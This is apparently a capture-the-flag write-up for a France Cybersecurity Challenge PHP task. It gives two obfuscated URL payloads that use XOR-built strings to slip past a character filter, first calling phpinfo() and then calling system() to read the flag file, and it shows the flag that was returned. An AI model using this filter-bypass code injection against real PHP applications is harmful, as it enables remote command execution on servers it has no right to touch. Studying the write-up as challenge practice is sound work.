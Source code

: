 PoC spawning phpinfo(): 
```powershell
http://challenges2.france-cybersecurity-challenge.fr:5008/?code=$___=%22-%22%5E%22]%22;$____=%22(%22%5E%22%60%22;$_____=%22)%22%5E%22@%22;$______=%22.%22%5E%22%60%22;$_______=%22[%22%5E%22=%22;$________=%22/%22%5E%22@%22;$_________=%22/%22%5E%22%60%22;$_++;$______________=$___.$____.$___.$_____.$______.$_______.$_________;$______________();
```

```powershell
Exploit getting the flag: 
http://challenges2.france-cybersecurity-challenge.fr:5008/?code=$___________________=%22^%22^%22?%22;%20$__=%20%22-%22%20^%20%22^%22;$_=%20%22%27%22^%22^%22;$___=%22/%22^%22[%22;$____=%22%%22^%22`%22;$_____=$__.$_.$__.$___.$____.%27m%27;$_____(%22c%22.$___________________.%22t%20.f*%22);
```
In source code: 

Well done!! Here is the flag:
FCSC{53d195522a15aa0ce67954dc1de7c5063174a721ee5aa924a4b9b15ba1ab6948}
